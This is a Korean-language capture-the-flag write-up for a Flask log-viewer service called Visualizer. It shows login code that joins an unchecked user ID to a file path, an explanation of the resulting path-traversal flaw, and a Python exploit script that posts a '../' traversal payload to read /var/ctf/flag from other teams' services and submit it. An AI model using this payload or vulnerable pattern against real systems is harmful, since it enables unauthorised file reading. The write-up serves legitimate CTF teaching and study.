 # Service 3. Visualizer

## Attack Vector and Vulnerability

Service3은SLA log를 보여주기 위한 web service가 있다.
아래 코드는 해당 web service에 로그인를 처리하는 부분의 코드이다.
로그인 시 id 값을 유저입력으로 받는데, 이부분이 Attack Vector가된다.

```python
# login page
# GET  - display login page(input ID box)
# POST - user submitted github ID
@app.route('/login', methods=['GET', 'POST'])
def login():
    if flask.request.method == 'POST':
        global FINGERPRINT
        global PASSPHRASE
        githubID = flask.request.form['id']
        keypath = './pub/' + githubID

        # check github ID by finding public key
        if not os.path.exists(keypath) or os.path.isdir(keypath):
            return flask.Response('No public key')
        data = file_read(keypath)
        pubkey = gpg.import_keys(data)
        if len(pubkey.fingerprints) == 0:
            return flask.Response('%s is not public key\n%s'%(keypath,data))
        challenge = str(random.getrandbits(256))
        flask.session['id'] = githubID
        flask.session['challenge'] = challenge
        challenge = gpg.encrypt(challenge, pubkey.fingerprints[0], always_trust=True, default_key=KEYID, passphrase=PASSPHRASE)
        flask.session['encChallenge'] = str(challenge)
        return flask.redirect('/auth')

    return flask.render_template('login.html')

```
위 코드를 보면, 유저 입력으로 받은 값을 ./pub에 더한 뒤 파일을 읽는다.
이 과정에서 사용자 입력값에 대한 검사가 없으므로 *path traversal* 공격이
가능하다.
넣어준 path의 파일의 fingerprints가 존재하지 않을 경우, 에러로 해당파일의 내용을
웹페이지에 프린트 해주기 때문에 id에 적절히 ../를 더해 flag 파일을 읽어올 수 있다.

'''

## Exploit Script

```python
# written by blukat29

import requests
import os
import re
import time

fname = ‘/var/ctf/flag’

def ex(team):

   domain = ‘http://localhost:80%d3' % team
    s = requests.Session()
    r = s.post(domain + ‘/login’, data={‘id’:‘../../../../../../../../var/ctf/flag’})
    return r.content.split(‘key’)[1].strip()

for i in (1,2,3,4,6):
    try:
        print i
        flag = ex(i)
        os.system(‘python submit.py %d 3 %s’ % (i, flag))
    except:
        pass
```

